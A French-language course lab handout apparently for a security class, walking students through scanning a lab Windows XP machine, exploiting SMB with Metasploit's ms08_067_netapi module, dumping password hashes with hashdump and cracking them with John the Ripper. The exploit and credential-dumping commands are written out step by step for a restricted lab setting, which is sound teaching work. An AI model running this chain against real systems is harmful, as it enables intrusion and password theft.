








# 🧪 Lab 2 : Casser les mots de passe de Windows XP

## 🎯 But du Lab

Prendre le contrôle d'une machine Windows XP vulnérable, extraire les mots de passe cachés (*hashs*) et les casser avec **John the Ripper**.

---

## 📋 Consignes

* Répondez à chaque question dans votre document.
* **Important :** Mettez une **capture d'écran** claire de la commande et du résultat pour chaque question.
* Scannez **uniquement** les adresses IP du laboratoire du cours.

> 🔗 **Aide :** Vous pouvez voir toutes les options de Nmap sur le site officiel : [Nmap Cheat Sheet](https://www.stationx.net/nmap-cheat-sheet/)

---

## 🛠️ Étapes à suivre

### Étape 1 : Scanner la cible

* Trouvez l'adresse IP de la machine Windows XP.
* Vérifiez que le port **445 (SMB)** est bien ouvert.


---

### Étape 2 : Lancer l'attaque avec Metasploit

* Lancer le terminal sur la machine kali.
* Lancer l'outil msfconsole



* Utiliser l’exploit suivant : ms08_067_netapi, avec la commande :

``` 
use exploit/windows/smb/ms08_067_netapi
```



``` 
show options
```


* Spécifier la victime de l’attaque avec la commande :

```
set RHOST <IP_de_la_machine_XP>
```


* Lancer l’attaque avec la commande :
```
exploit
```


* Accéder aux hashs des mots de passe afin de préparer l’attaque hors ligne avec la commande :
```
hashdump
```

*  Maintenant, c’est à vous de cracker les mots de passe en utilisant John the Ripper.


